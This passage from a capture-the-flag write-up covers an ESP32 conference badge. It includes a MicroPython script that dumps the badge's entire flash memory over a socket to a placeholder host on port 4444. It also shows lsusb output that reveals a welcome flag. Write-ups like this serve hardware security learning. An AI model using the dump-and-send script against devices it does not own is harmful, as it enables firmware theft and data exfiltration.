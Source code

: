 ### Extracting the Filesystem

In addition to the filesystem, we are also interested in the flash memory of the ESP32 _(essentially extracting the firmware)_.

We can do so using the `esp.flash_read` function that is exposed via the micropython. Afterwards, we can similarly send out the data back to ourselves over the internet.

```py
# script to send out flash from badge
import esp

flash_size = esp.flash_size()
start_addr = 0x0
# we need to segment our packets due to limited memory
block_size = 1024*20
buf = bytearray(block_size)

print("--------------------")
print(f"flash size: {hex(flash_size)}")
print(f"start addr: {hex(start_addr)}")
print("--------------------")

import socket

s = socket.socket()
s.connect(('X.X.X.X', 4444))

for i in range(flash_size//block_size):
  print(f'[*] {i/(flash_size/block_size)*100}%')
  esp.flash_read(start_addr+block_size*i, buf)
  s.send(bytes(buf))

s.close()
```

If we `strings` the firmware, we can actually obtain 2 flags already XD.

For the sake of completeness, I'll go through each flag individually in the next sections.

## Flag 1: Welcome Flag

_During the CTF, I got this flag by dumping the firmware strings._

Essentially, we can list the device information using `lsusb` in linux, and the flag is available in the USB description.

```sh
$ lsusb -v
Bus 001 Device 005: ID 303a:4001 STAR LABS SG #BadgeLife
Device Descriptor:
  bLength                18
  bDescriptorType         1
  bcdUSB               2.00
  bDeviceClass          239 Miscellaneous Device
  bDeviceSubClass         2 
  bDeviceProtocol         1 Interface Association
  bMaxPacketSize0        64
  idVendor           0x303a 
  idProduct          0x4001 
  bcdDevice            1.00
  iManufacturer           1 STAR LABS SG
  iProduct                2 #BadgeLife
  iSerial                 3 {Welcome_To_OffByOne_2024}
  bNumConfigurations      1

```